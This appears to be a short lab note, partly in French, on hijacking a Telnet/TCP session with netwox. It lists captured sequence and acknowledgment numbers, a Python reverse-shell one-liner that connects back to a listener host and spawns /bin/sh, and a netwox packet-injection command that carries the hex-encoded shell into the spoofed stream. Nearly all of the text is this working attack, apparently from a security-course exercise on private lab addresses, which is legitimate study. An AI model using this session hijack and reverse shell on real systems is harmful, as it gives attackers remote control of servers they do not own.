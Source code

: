 # Telnet Session hijacking with netwox

Source Port: 33186
Sequence Number (raw): 3920446218
Acknowledgment number (raw): 3464422836
## get shell code for reverse shell
On va executer un command linux sur serveur :
Encoder en hex ce code par utiliser python2 :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.199.155",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’<et un enter ici ‘0A’ en hex>
```

### netwox command
```
$ sudo netwox 40 --ip4-src 192.168.199.159 --ip4-dst 192.168.199.156 --tcp-dst 22 --tcp-src 33186 --tcp-seqnum 3920446218 --tcp-acknum 3464422836 -A -z --tcp-window 2000 --tcp-data 
"0a707974686f6e202d632027696d706f727420736f636b65742c73756270726f636573732c6f733b
733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f
434b5f53545245414d293b732e636f6e6e6563742828223139322e3136382e3139392e31353522
2c3930393029293b6f732e6475703228732e66696c656e6f28292c30293b206f732e64757032287
32e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73
756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b270a"
```

